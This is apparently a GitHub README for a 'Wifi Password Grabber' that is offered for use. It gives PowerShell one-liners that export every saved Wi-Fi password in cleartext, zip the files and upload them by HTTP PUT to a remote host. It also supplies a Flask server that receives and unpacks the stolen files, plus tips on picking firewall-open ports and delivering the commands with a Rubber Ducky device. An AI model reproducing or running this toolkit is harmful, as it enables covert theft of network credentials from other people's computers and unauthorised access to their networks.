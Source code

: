 # Wifi Password Grabber #
#### ↓ PowerShell command to get all saved passwords in the system ↓ ####
`netsh wlan export profile key=clear` 
_**note:**  this will export all wifi networks into `C:\Users\<user>`) directory in .xml format._

#### ↓ PowerShell command to zip all the XML files ↓ ####
`Compress-Archive -U .\*.xml -DestinationPath temp.zip`

#### ↓ PowerShell command to send the zip file via HTTP PUT request ↓ ####
`Invoke-Restmethod -Uri http://[domain, IP or localhost]:[port]/wpg/temp.zip -Method Put -Infile .\temp.zip`
_**note:** use ports that are usually open by default in the firewall, for example, `80`._
### Run this python code as a server ###
This code handles the zip file and extracts `XML` files into the `passwords` folder.
```py
from flask import Flask, request
from zipfile import ZipFile
from os import remove

app = Flask(__name__)

def unzip_all_files():
    with ZipFile('data.zip', 'r') as zipObj:
        zipObj.extractall(path="passwords")
    remove("data.zip")

@app.route("/wpg/<file>", methods=["PUT"])
def data_handler(file):
    with open("data.zip", 'wb') as f:
        for chunk in iter(lambda: request.stream.read(16384), bytes()):
            f.write(chunk)
    unzip_all_files()
    return "done"
    
if __name__ == "__main__":
    app.run(port=80, host="0.0.0.0")
```
#### For localhost: ####
For localhost remove `host="0.0.0.0"`

#### Tip: ###
Use a Rubber Ducky
